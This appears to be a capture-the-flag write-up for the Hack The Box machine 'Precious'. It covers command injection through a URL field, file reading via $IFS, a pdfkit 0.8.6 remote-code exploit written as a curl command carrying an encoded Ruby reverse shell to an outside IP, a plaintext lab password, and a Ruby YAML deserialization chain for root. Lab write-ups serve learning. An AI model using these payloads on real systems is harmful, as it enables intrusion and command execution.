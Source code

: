 # Precious

Nmap reveals two ports: 22 and 80

# Web

I spent quite some time trying to find some kind of injection with both sqlmap and Burp's intruder and various seclists, although I did not find any.

In the end, I watched the initial part of the Ippsec video for this box, and he says he always tries this:

```
http://10.10.16.17/$(whoami)
```

which I did not consider.

But it makes sense! If this is being run on the command line, then the command line will expand the `$()` first, before executing the command itself. So if I ran this locally:

```
http://foo.bar/$(whoami) ==> http://foo.bar/niels (and now it would be passed to curl or whatever).
```

Naive reverse netcat shell did not work.

What about some LFI?

Turns out you can use $IFS instead of spaces, since spaces seems to break everything!

```
http://10.10.16.17:8000/index.html/$(cat$IFS/etc/passwd)
```

Which reveals these users:

```
/root:x:0:0:root:/root:/bin/bash
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```
total%2012%0Adrwxr-xr-x%202%20root%20ruby%204096%20Oct%2026%20%202022%20.%0Adrwxr-xr-x%204%20root%20ruby%204096%20Oct%2026%20%202022%20..%0A-rw-r--r--%201%20root%20ruby%20%20725%20Sep%2024%20%202022%20pdf.rb

# pdfkit

Using this LFI it's possible to see the source code in ./app/controllers/pdf.rb, and the version is 0.8.6.

Google search reveals an RCE exploit for this version!

```
curl 'precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' --data-raw 'url=http%3A%2F%2F10.10.16.17%3A443%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.10.16.17%22%2C443%29%29%27%60'
```

# Privesc

Unusual dir called .bundle in /home/ruby/.bundle

henry:Q3c1AqGHtoI0aXAYFH

Let's check if Henry did something silly. Lo and behold - he did!

These are also his ssh credentials.

# More privesc

Looks like we might be able to use the update dependencies script which is based on Ruby and some yaml files.

The update script did not define a specific yaml file. I imagine the idea is that you use the one in the sample dir, but we can also create a new one and use that instead!

Took a bit of trial and error to find a working payload, but in the end, this worked for me:

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

And just substituted `id` with `cat /root/root.txt`. I'm sure you can do a reverse shell as well somehow.


